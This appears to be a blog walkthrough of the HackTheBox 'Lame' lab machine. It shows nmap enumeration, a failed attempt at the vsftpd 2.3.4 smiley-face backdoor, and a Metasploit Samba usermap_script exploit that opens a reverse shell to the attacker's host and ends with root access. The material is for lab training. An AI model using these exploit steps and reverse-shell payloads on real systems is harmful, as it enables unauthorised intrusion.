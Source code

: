 ```yaml
---
layout: post
title: HackTheBox | Lame
date: 2018-07-02 19:00:00 -0400
categories:
- hackthebox
description: Solutions for HackTheBox Lame
image:
  feature: assets/img/d46717d4d7d8c5948db7ca49cd3d2fbf.png
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the Lame device on [HackTheBox](https://www.hackthebox.eu).

## Enumeration

First things first, as with any machine, we want to nmap scan it to see what ports are open.

```bash
root@kali:~/reboare.github.io/_posts# nmap -p- 10.10.10.3 -T4

Nmap scan report for 10.10.10.3
Host is up (0.062s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 437.65 seconds
```

So we have a bunch of ports open, the next step is to perform a more in depth scan on these ports.

```bash
root@kali:~/reboare.github.io/_posts# nmap -p 21,22,139,445,3632 10.10.10.3 -A

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:21 BST
Nmap scan report for 10.10.10.3
Host is up (0.17s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2017-08-18T03:23:21-04:00

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   168.26 ms 10.10.14.1
2   251.04 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.89 seconds
```

The first target that looks like it would be exploitable is the ftp server version, vsftpd 2.3.4.  For those who don't know, this version of vsftpd was compromised, not via the source code, but by an exploitable version being uploaded to the master site.  Exploiting it is as simple as sending a smiley-face ':)' as the username credential.  This will then open a shell on port 6200.

However, a quick and dirty test reveals that this method doesn't work.

```bash
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): :)
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@kali:~# nmap -p 6200 10.10.10.3

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:26 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
PORT     STATE    SERVICE
6200/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

Since there was no fix to the source code, fixing this vulnerability didn't necessitate a version change.  This was just placed as a red-herring.

So with that failing lets attempt to attack the samba service.  We can see from the namp scan that it's running version 3.0.20, so lets check metasploit to see if anything pops up.

```bash
msf > search samba
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                            Disclosure Date  Rank       Description
   ----                                            ---------------  ----       -----------
   auxiliary/admin/smb/samba_symlink_traversal                      normal     Samba Symlink Directory Traversal
   auxiliary/dos/samba/lsa_addprivs_heap                            normal     Samba lsa_io_privilege_set Heap Overflow
   auxiliary/dos/samba/lsa_transnames_heap                          normal     Samba lsa_io_trans_names Heap Overflow
   auxiliary/dos/samba/read_nttrans_ea_list                         normal     Samba read_nttrans_ea_list Integer Overflow
   auxiliary/scanner/rsync/modules_list                             normal     List Rsync Modules
   auxiliary/scanner/smb/smb_uninit_cred                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   exploit/freebsd/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/chain_reply                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/lsa_transnames_heap         2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap          2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open                  2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans                     2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   exploit/multi/samba/usermap_script              2007-05-14       excellent  Samba "username map script" Command Execution
   exploit/osx/samba/lsa_transnames_heap           2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/osx/samba/trans2open                    2003-04-07       great      Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/lsa_transnames_heap       2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/solaris/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (Solaris SPARC)
   exploit/unix/misc/distcc_exec                   2002-02-01       excellent  DistCC Daemon Command Execution
   exploit/unix/webapp/citrix_access_gateway_exec  2010-12-21       excellent  Citrix Access Gateway Command Execution
   exploit/windows/fileformat/ms14_060_sandworm    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/http/sambar6_search_results     2003-06-21       normal     Sambar 6 Search Results Buffer Overflow
   exploit/windows/license/calicclnt_getconfig     2005-03-02       average    Computer Associates License Client GETCONFIG Overflow
   exploit/windows/smb/group_policy_startup        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   post/linux/gather/enum_configs                                   normal     Linux Gather Configurations
```

Quite a few exploits for samba, but doing some research reveals that samba/usermap_script targets versions `3.0.20 through 3.0.25rc3`.  So lets try that one.

```bash
msf > use exploit/multi/samba/usermap_script 
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > set LHOST 10.10.13.126
LHOST => 10.10.13.126

msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.13.126:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo g2J1cK9h6SBFE0RL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "g2J1cK9h6SBFE0RL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.13.126:4444 -> 10.10.10.3:50926) at 2017-05-17 17:31:24 +0100
```

It works and we have a root shell.